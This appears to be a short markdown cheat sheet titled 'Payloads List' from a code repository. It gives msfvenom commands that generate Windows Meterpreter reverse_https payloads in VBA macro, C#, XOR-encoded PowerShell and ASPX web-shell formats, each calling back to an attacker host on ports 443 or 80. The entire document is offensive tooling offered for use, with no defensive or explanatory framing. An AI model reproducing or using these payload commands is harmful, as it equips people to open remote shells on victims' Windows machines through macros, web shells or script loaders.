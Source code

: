# Payloads List

## VBA Format
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f vbapplication
```
## C# Format
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.112 LPORT=80 -f csharp##
```

## PowerShell Format
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.112 LPORT=443 EXITFUNC=thread -e x64/xor -f ps1
```

## ASPX Format
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.112 LPORT=443 -f aspx -o met.aspx
```
